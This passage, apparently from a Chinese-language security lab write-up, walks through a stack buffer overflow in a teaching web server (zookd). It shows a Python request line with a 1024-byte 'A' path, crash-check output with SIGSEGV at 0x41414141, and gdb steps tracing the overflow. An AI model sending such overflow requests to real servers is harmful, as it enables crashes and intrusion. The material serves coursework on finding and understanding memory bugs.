 之前发现缓冲区有1024字节，我们就令请求路径超过1024字节。

``` python
 req =   "GET /" + 'A' * 1024 + " HTTP/1.0\r\n" + \
            "\r\n"
```
将攻击脚本复制两份，命名为`exploit-2a.py`和`exploit-2b.py`，并用`make check-crash`来验证是否导致程序崩溃。

``` sh
$ make check-crash
./check-bin.sh
./check-part2.sh zook-exstack.conf ./exploit-2a.py
./check-part2.sh: line 8:  4398 Terminated              strace -f -e none -o "$STRACELOG" ./clean-env.sh ./zookld $1 &> /dev/null
4417  --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
4417  +++ killed by SIGSEGV +++
PASS ./exploit-2a.py
./check-part2.sh zook-exstack.conf ./exploit-2b.py
./check-part2.sh: line 8:  4423 Terminated              strace -f -e none -o "$STRACELOG" ./clean-env.sh ./zookld $1 &> /dev/null
4442  --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
4442  +++ killed by SIGSEGV +++
PASS ./exploit-2b.py
```

该程序并通过(PASS)了检查。缓冲区漏洞导致程序因为SIGSEV信号而崩溃，指令地址被改写为`si_addr=0x41414141`。下面看看具体发生了什么。

使用`gdb -p 进程号`来调试程序。进程号可通过两种方法获得：观察`zookld`在终端输出子进程ID；或者使用`pgrep`，例如`gdb -p $(pgrep zookd-exstack)`。

使用`gdb`过程中，当父进程`zookld`被`^C`杀死时，被`gdb`调试的子进程并不会被终止。这将导致无法重启web服务器。因此，在重启`zookld`之前，应先退出`gdb`。

当生成子进程时，`gdb`缺省情况下仍然调试父进程，而不会跟踪子进程。由于`zookfs`为每个服务请求生成一个子进程，为了自动跟踪子进程，使用`set follow-fork-mode child`命令。该命令已经被加入`/home/httpd/lab/.gdbinit`中，`gdb`启动时会自动执行。

调试流程如下：

1. 在终端1中，重启服务：
`$ ./clean-env.sh ./zookld zook-exstack.conf`。
1. 在终端2中，启动`gdb`（`gdb -p PID`），并设置断点（`b`命令）。
1. 在终端3中，运行漏洞触发程序 `./exploit-2a.py localhost 8080`。
1. 返回终端2，继续调试（`c`命令）。

首先，调试`zookd`。`http_request_line`负责处理HTTP请求。

``` gas
$ gdb -p $(pgrep zookd-exstack)
...
(gdb) b http_request_line
Breakpoint 1 at 0x8049150: file http.c, line 67.
[运行漏洞触发程序]
(gdb) c
Continuing.

Breakpoint 1, http_request_line (fd=5, reqpath=0xbfffee08 "", env=0x804e520 <env> "", env_len=0x8050520 <env_len>) at http.c:67
warning: Source file is more recent than executable.
67          char *sp1, *sp2, *qp, *envp = env; 
(gdb) n
[执行n多次直到REQUEST_URI被处理完]
(gdb) n
109         envp += sprintf(envp, "SERVER_NAME=zoobar.org") + 1;
(gdb) x/10s buf        [打印buf，请求中各字段已经被分割]
0x8050540 <buf.4435>:   "GET"
0x8050544 <buf.4435+4>: "/", 'A' <repeats 199 times>...
0x805060c <buf.4435+204>:       'A' <repeats 200 times>...
0x80506d4 <buf.4435+404>:       'A' <repeats 200 times>...
0x805079c <buf.4435+604>:       'A' <repeats 200 times>...
0x8050864 <buf.4435+804>:       'A' <repeats 200 times>...
```